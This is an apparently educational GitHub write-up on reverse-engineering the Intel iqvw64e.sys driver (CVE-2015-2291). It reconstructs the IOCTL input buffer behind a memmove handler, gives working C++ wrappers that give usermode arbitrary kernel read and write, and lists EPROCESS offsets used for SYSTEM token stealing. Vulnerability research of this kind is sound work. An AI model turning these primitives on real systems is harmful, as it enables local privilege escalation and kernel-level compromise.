






# iqvw64e-privilege-escalation
CVE-2015-2291 Local Privilege Escalation PoC



## Overview

This project is an educational proof-of-concept for a **Local Privilege Escalation (LPE)** vulnerability in the driver `iqvw64e.sys` (SHA256: `37c637a74bf20d7630281581a8fae124200920df11ad7cd68c14c26cc12c5ec9`) — the Intel Ethernet diagnostics driver associated with **CVE-2015-2291**.

After seeing the driver exploited in kernel-mode loaders like **KDMapper**, I wanted to reverse it for myself to understand **how the IOCTL dispatch works**, what kinds of functions it exposes to usermode, and how an attacker might discover or leverage them. This writeup walks through the process from static analysis to building memory primitives using `DeviceIoControl`, and ultimately creating an exploit that abuses those primitives to replace the access token of the current process with the **SYSTEM process token**, effectively **elevating the process** to SYSTEM privileges.

On Windows, each process is associated with an access token that defines its identity and privileges. 
By obtaining arbitrary kernel read/write, it becomes possible to modify the token pointer stored in the kernel’s process structure. 
Replacing this pointer with the one belonging to the SYSTEM process causes the OS to associate the current process with SYSTEM’s security context, effectively granting it full privileges. Learn more [here](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/how-kernel-exploits-abuse-tokens-for-privilege-escalation#id-1.-replacing-tokens-for-privilege-escalation).


## From IOCTL Handler to Jump Table

The driver registers a dispatch routine for `IRP_MJ_DEVICE_CONTROL`, which handles `DeviceIoControl` calls from usermode. As shown below, it leads to `sub_11150` which directs code flow based on the input IO Control Code. In this case, we are interested in `0x80862007`, which takes us to `loc_111C2`.



Following the control flow through `loc_111C2`, we reach `sub_113C0`. It receives an input buffer (`a1`) and uses the first QWORD of that buffer as an index into a **jump table** of internal handler functions. Here, the driver performs the following:

- Reads `a1` → first QWORD (0x0) → `jump_table_index`

- Switches based on this index

- Dispatches to the corresponding internal function

- Uses remaining fields in `a1` as arguments

We now know the input buffer controls both the **dispatch target** and its **parameters**. We will further define the *input buffer* structure as we continue analysis.

```cpp
typedef struct _MEMMOVE_INPUT_BUFFER
{
uint64_t jump_table_index; // 0x00 — used as the dispatch selector
} MEMMOVE_INPUT_BUFFER, *PMEMMOVE_INPUT_BUFFER;
```





## Identifying the `memmove` Primitive

While analyzing the jump table cases, I searched for handlers that resemble `memmove` or `memcpy`. At **case 0x33**, the driver calls `sub_11EA0`, passing in three fields from the input buffer. This strongly resembles a memory copy:



Opening up `sub_11EA0`, we find the expected [signature](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memmove-wmemmove?view=msvc-170):

```cpp
void* memmove( void* dest, const void* src, std::size_t count );
```

The disassembly confirms that:

- Argument `a1` = `destination`

- Argument `a2` = `source`

- Argument `a3` = `length`



With this information, we can now fully reconstruct the input buffer layout expected for the `memmove` call:

```cpp
typedef struct _MEMMOVE_INPUT_BUFFER
{
	uint64_t jump_table_index; // 0x00
	uint64_t padding;          // 0x08 (8)
	uint64_t source;           // 0x10 (16)
	uint64_t destination;      // 0x18 (24)
	uint64_t length;           // 0x20 (32)
} MEMMOVE_INPUT_BUFFER, *PMEMMOVE_INPUT_BUFFER;
```

## Achieving Arbitrary Memory Read/Write

We now understand that by sending a valid `MEMMOVE_INPUT_BUFFER` to the driver, with:

- `jump_table_index = 0x33`

- `source`, `destination`, and `length` set as needed

We can **instruct the driver to call `memmove` on arbitrary addresses**, giving us full kernel memory read/write capabilities from usermode.

Here are the usermode wrappers built around this primitive:

```cpp
bool MemMove(uint64_t destination, uint64_t source, uint64_t size) {
	if (!destination || !source || !size)
		return 0;

	MEMMOVE_INPUT_BUFFER input_buffer = { 0 };

	input_buffer.jump_table_index = 0x33; //jumptable index for memmove (51)
	input_buffer.source = source;
	input_buffer.destination = destination;
	input_buffer.length = size;

	DWORD bytes_returned = 0;
	return DeviceIoControl(hDriver, IOCTL_MEMMOVE, &input_buffer, sizeof(input_buffer), nullptr, 0, &bytes_returned, nullptr);
}

uintptr_t read64(uintptr_t address)
{
	uintptr_t value = 0;
	if (MemMove(reinterpret_cast<uint64_t>(&value), address, sizeof(uintptr_t)))
		return value;
	return 0;
}

bool write64(uintptr_t address, uintptr_t value)
{
	return MemMove(address, reinterpret_cast<uint64_t>(&value), sizeof(uintptr_t));
}
```

These helpers allow arbitrary 64-bit reads and writes to kernel virtual memory. From this point, various attacks become possible (such as **EPROCESS token stealing**), but this write-up focuses on **reconstruction and analysis**. You will find `main.cpp` contains a **PoC EPROCESS token stealing exploit**, courtesy of *Eap2468's* [CVE-2021-2155](https://github.com/Eap2468/CVE-2021-21551/tree/main)

## Notes

- Windows Version: 10 x64 22H2 (19045.6466)

- EPROCESS Offsets:

    - `UniqueProcessId`: 0x440
    - `ActiveProcessLinks`: 0x448
    - `Token`: 0x4b8

- Driver: `iqvw64e.sys` (The driver binary has been included in the repo for your convenience)

- SHA256: `37c637a74bf20d7630281581a8fae124200920df11ad7cd68c14c26cc12c5ec9`

## References and Credits

- [CVE-2015-2291 (iqvw64e.sys)](https://nvd.nist.gov/vuln/detail/cve-2015-2291)
- [KDMapper](https://github.com/TheCruZ/kdmapper)
- [CVE-2021-21551 / Token Stealing Exploit](https://github.com/Eap2468/CVE-2021-21551/blob/main/CVE-2021-21551/Main.cpp)
- **Vergilius Project** for Windows Structure Definitions

## Showcase


